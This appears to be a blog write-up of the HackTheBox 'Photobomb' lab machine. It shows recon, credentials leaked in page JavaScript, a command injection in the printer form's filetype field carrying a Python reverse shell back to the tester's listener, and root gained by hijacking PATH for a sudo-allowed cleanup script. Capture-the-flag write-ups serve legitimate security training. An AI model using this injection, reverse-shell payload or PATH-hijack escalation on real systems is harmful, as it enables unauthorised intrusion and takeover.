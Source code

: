 ```yaml
---
layout: post
title: HackTheBox Photobomb Writeup
# subtitle: There's lots to learn!
gh-repo: github.com/thirt33n/thirt33n.github.io
gh-badge: [star, fork, follow]
tags: [htb,writeup]
comments: true
---
```




## Photobomb
![Photobomb](../assets/img/Photobomb.png){: .mx-auto.d-block :}

We are provided the ip,
```
IP: 10.129.54.72
```
running an nmap scan using the command 

```bash
nmap -sC -sV 10.129.54.72
```
nmap scan :
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-08 22:00 EDT
Nmap scan report for 10.129.54.72
Host is up (0.61s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.78 seconds
```
<br>

Opening the website after adding *photobomb.htb* in */etc/hosts* file


going to photobomb.htb/login shows this:

```html
Sinatra doesn’t know this ditty.
Try this:

get '/login' do
  "Hello World"
end
```
Turns out :
Sinatra is a minimalist Ruby framework for building server-side web applications. It is neither as popular nor as high-powered as Rails. However, Sinatra is a great tool for learning about routing because we'll manually create all our routes in a file namedapp.rb. Rails will mostly handle routing for us, which means Rails isn't as helpful for understanding this essential concept.

We come back to this later:

Trying a dirb scan on photobomb.htb:
Nothing useful so far, and better not to pursue further.


Now,
a link for http://photobomb.htb/printer is present on the home page:
the page asks for username and pwd for it 

the photobomb.js file shows this :

```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```
from the snippet above: i used the link given and it allowed me to login as the user  pHOt0:
http://pH0t0:b0Mb!@photobomb.htb/printer

and now i am in the website as a user!

<br>


Also pH0t0:b0Mb! is a user for photobomb.htb

We use  the python reverse shell payload using:

https://www.revshells.com

using the python3 #1 shell

first set up nc listener on port 9001
```bash
nc -lnvp 9001
```
Using burpsuite we intercept the request

and input it into the photo field of the burp proxy(send it to repeater)
the entire request looks like :

```
POST /printer HTTP/1.1
Host: pH0t0:b0Mb!@photobomb.htb
Content-Length: 292
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Origin: http://photobomb.htb
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://photobomb.htb/printer
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

photo=mark-mc-neill-4xWHIpY2QcY-unsplash.jpg&filetype=png;export RHOST="10.10.16.11";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'&dimensions=30x20
```
forward it !
```
the response:
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 09 Oct 2022 03:27:55 GMT
Content-Type: text/html
Content-Length: 154
Connection: close
Location: http://photobomb.htb/

<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
```
this will spawn a reverse shell in the listener

go in and find the user.txt in the home file 
the flag was : [REDACTED]

sub user flag !
user pwned



## Root own

once in check sudo -l:
```bash
$ sudo -l

Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc


cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

since cleanup.sh references other files, we add bash into the find command and then gain root access
```bash
$ echo bash > find
$ chmod +x find
$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
whoami
root
```


then find the root.txt at the root folder

[REDACTED]

pwned

